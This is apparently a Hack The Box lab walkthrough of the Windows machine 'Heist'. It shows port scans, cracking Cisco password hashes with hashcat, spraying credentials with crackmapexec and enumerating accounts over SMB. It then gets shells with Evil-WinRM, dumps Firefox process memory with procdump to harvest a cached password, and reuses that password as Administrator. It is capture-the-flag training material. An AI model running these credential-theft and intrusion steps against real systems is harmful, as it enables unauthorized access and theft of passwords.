






# Heist

[Heist](https://app.hackthebox.com/machines/Heist) is an Easy level machine. This machine focuses on a lot of enumeration and brute-forcing along with some memory analysis. So, let's begin!

## Enumeration

The first thing that we can do is run an `nmap` scan against the target machine to see which ports are open and then we can run another version detection scan for those ports.

```
$ sudo nmap -sS -p- 10.129.96.157              
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-10 11:43 PDT
Nmap scan report for 10.129.96.157
Host is up (0.083s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 188.05 seconds
$ nmap -p80,135,445,5985,49669 -sV -sC 10.129.96.157
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-10 11:47 PDT
Nmap scan report for 10.129.96.157
Host is up (0.085s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
| smb2-time: 
|   date: 2023-06-10T18:48:21
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.78 seconds
```

From the scan, we can see that port 80 is open so we can start our enumeration from there.

On port 80, we can see a login page is being hosted:



We can try a couple of credentials  like `admin:admin`, `Administrator:password`, `user:pass` etc but none of them work. But we can see that there is an option to login as guest.



Here we can see some communication between a user named `hazard` and `Support Admin`. Also, there is an attachment that the user `hazard` has uploaded.



It looks like this is a Cisco config file but what is interesting is that there are 3 hashes in this file (two type 7 and one type 5). We can crack type 7 password with  [Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html) and the type 5 password can be cracked with `hashcat`.

```
$ echo "\$1\$pdQG\$o8nrSzsGXeaduXrjlvKc91" > hash  
$ cat hash 
$1$pdQG$o8nrSzsGXeaduXrjlvKc91

$ hashcat -m 500 hash /usr/share/wordlists/rockyou.txt --potfile-disable
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, POCL_DEBUG) - Platform #1 [The pocl project]
==========================================================================================================================================
* Device #1: pthread--0x000, 1438/2941 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$1$pdQG$o8nrSzsGXeaduXrjlvKc91:*************              
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$pdQG$o8nrSzsGXeaduXrjlvKc91
Time.Started.....: Sat Jun 10 12:23:37 2023 (4 mins, 23 secs)
Time.Estimated...: Sat Jun 10 12:28:00 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    13635 H/s (7.65ms) @ Accel:32 Loops:1000 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3543424/14344385 (24.70%)
Rejected.........: 0/3543424 (0.00%)
Restore.Point....: 3543296/14344385 (24.70%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidate.Engine.: Device Generator
Candidates.#1....: steamgas -> stealth1987
Hardware.Mon.#1..: Util: 91%

Started: Sat Jun 10 12:23:36 2023
Stopped: Sat Jun 10 12:28:01 2023
```

*"\\" added before "$" in order to escape them and write the exact value in the file.*

Now we have 3 usernames

```
$ cat users 
rout3r
admin
hazard
```

And by decrypting the three hashes we get three passwords as well.

## Initial Foothold

Now that we can form a couple of credential pairs, we can try to brute-force them with `crackmapexec`.



With the credential pair that we found, we can try to connect to the machine via SMB.

```
$ smbmap -H 10.129.96.157 -u hazard -p stealth1agent
[+] IP: 10.129.96.157:445	Name: 10.129.96.157                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
```

It looks like user `hazard` has access only to the IPC share. We can try to connect to the machine with `rpcclient` as well. But when we try to run any command we get `NT_STATUS_CONNECTION_DISCONNECTED` error. 

At this point, we have multiple usernames and passwords but only one pair is working out of all of them only for SMB. But there must be some pair of credentials that can be used to connect to the machine via WinRM. So, we need to enumerate other users on the machine. We can do this using the `impact-lookupsid` tool with the one credential pair that works for SMB.

```
$ impacket-lookupsid hazard@10.129.96.157    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.129.96.157
[*] StringBinding ncacn_np:10.129.96.157[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

Now, along with the default users we have found a couple more accounts on the machine. We can add all these names to our list of usernames and again pass them to `crackmapexec` along with the three passwords that we have, to see if we find a new pair of working credentials.

```
$ cat users                                      
rout3r
admin
hazard
Administrator
support
Chase
Jason

```



And there we found another pair of credentails for the user `Chase`. We can try to connect to the machine via WinRM using Chase's credentials.

```
$ evil-winrm -i 10.129.96.157 -u Chase
Enter Password: 
                                        
Evil-WinRM shell v3.5
                                        
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
*Evil-WinRM* PS C:\Users\Chase\Documents> hostname
SupportDesk
*Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
*Evil-WinRM* PS C:\Users\Chase> cd Desktop
*Evil-WinRM* PS C:\Users\Chase\Desktop> type user.txt
```

And there we get the user flag.

## Privilege Escalation

We can get started with enumerating the machine's details with `systeminfo`

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> systeminfo
systeminfo.exe : ERROR: Access denied
    + CategoryInfo          : NotSpecified: (ERROR: Access denied:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
```

Looks like the user `Chase` does not have access to this command.

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Chase                    DefaultAccount
Guest                    Hazard                   Jason
support                  WDAGUtilityAccount
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\Chase\Desktop> net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
The command completed successfully.

```

From the list of users in Adminstrator group, it is clear that our current user `Chase` is not part of that group, else we could've tried UAC bypass. But the next thing that we can look at would the processes that are running and see if something can be exploited over there.

```
*Evil-WinRM* PS C:\Users\Chase\Desktop> ps

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    466      18     2292       5428               364   0 csrss
    290      13     2268       5232               476   1 csrss
    359      15     3444      14608              4540   1 ctfmon
    251      14     3924      13388              3816   0 dllhost
    166       9     1884       9772       0.03   6876   1 dllhost
    619      32    29900      57928               972   1 dwm
   1496      57    24236      78828              5200   1 explorer
    378      28    23472      60708       0.53   6208   1 firefox
    355      25    16392      39028       0.09   6504   1 firefox
   1089      71   147608     225472       5.14   6648   1 firefox
    347      19    10152      38704       0.16   6756   1 firefox
    401      34    37300      96568       1.72   6988   1 firefox
     49       6     1784       4700               776   1 fontdrvhost
     49       6     1496       3916               784   0 fontdrvhost
      0       0       56          8                 0   0 Idle
    957      23     5684      14816               624   0 lsass
    223      13     3052      10316              2748   0 msdtc
      0      12      352      15760                88   0 Registry
    145       8     1632       7520              5636   1 RuntimeBroker
    303      16     5588      17040              5732   1 RuntimeBroker
    272      14     3084      15128              6104   1 RuntimeBroker
    665      32    19596      61248              5564   1 SearchUI
    546      11     5008       9696               604   0 services
    681      28    14948      51212              5476   1 ShellExperienceHost
    441      17     4920      24068              4852   1 sihost
     53       3      524       1200               264   0 smss
    469      23     5840      16312              2504   0 spoolsv
    151       9     1656      11656               312   0 svchost
    199      12     1964       9704               328   0 svchost
    171       9     1488       7244               600   0 svchost
     85       5      892       3844               724   0 svchost
    863      20     7008      22636               744   0 svchost
...
...
...
```

Apart from the normal processes, it can be seen that `firefox` is also running. So, we can try to dump that process and see if we can find something useful in the dump like cached credentials.

We can dump the `firefox` process with the `procdump` tool. It can be downloaded from [SysInternal's website](https://download.sysinternals.com/files/Procdump.zip) (there are multiple binaries in the zip file but we can use the `procdump.exe`). To transfer this file to the target machine, we can simply use the `upload` functionality of `Evil-WinRM`.

```
*Evil-WinRM* PS C:\Users\Chase\Documents> upload procdump.exe
                                        
Info: Uploading /home/kali/HTB/heist/procdump.exe to C:\Users\Chase\Documents\procdump.exe
                                        
Data: 1055944 bytes of 1055944 bytes copied
                                        
Info: Upload successful!
```

Once the file is uploaded, we can use the PID of `firefox` to create its dump. (There are four instances of `firefox`, so we can create a dump for each one of them if needed) And then download it through `Evil-WinRM`

```
*Evil-WinRM* PS C:\Users\Chase\Documents> ./procdump.exe -accepteula -ma 6208

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[07:34:04] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_230611_073404.dmp
[07:34:04] Dump 1 writing: Estimated dump file size is 309 MB.
[07:34:05] Dump 1 complete: 309 MB written in 1.1 seconds
[07:34:05] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_230611_073404.dmp
                                        
Info: Downloading C:\Users\Chase\Documents\firefox.exe_230611_073404.dmp to firefox.exe_230611_073404.dmp
```

We can simply run `strings` on the dump file and `grep` for the term `password` to see if we can find some cached passwords.



Now that we have an additional pair of credentials we can try to use the same password with the `Administrator` user via `Evil-WinRM` and see if we can get privileged access to the machine.

```
$ evil-winrm -i 10.129.96.157 -u Administrator
Enter Password: 
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
```

And there we get the access as root and we find the root flag as well.

## Key Points to Take Away

1. If none of credentials are working to gain access to the machine, then try to enumerate different users on the machine.
2. Use `Evil-WinRM` whenever port 5985 is open.
3. Look for processes that might have cached credentials and try to dump them.

## References

1. [Hack The Box :: Heist](https://app.hackthebox.com/machines/Heist)
2. [Cisco Password Cracker](https://www.ifm.net.nz/cookbooks/passwordcracker.html)
3. [SysInternal Procdump](https://download.sysinternals.com/files/Procdump.zip)
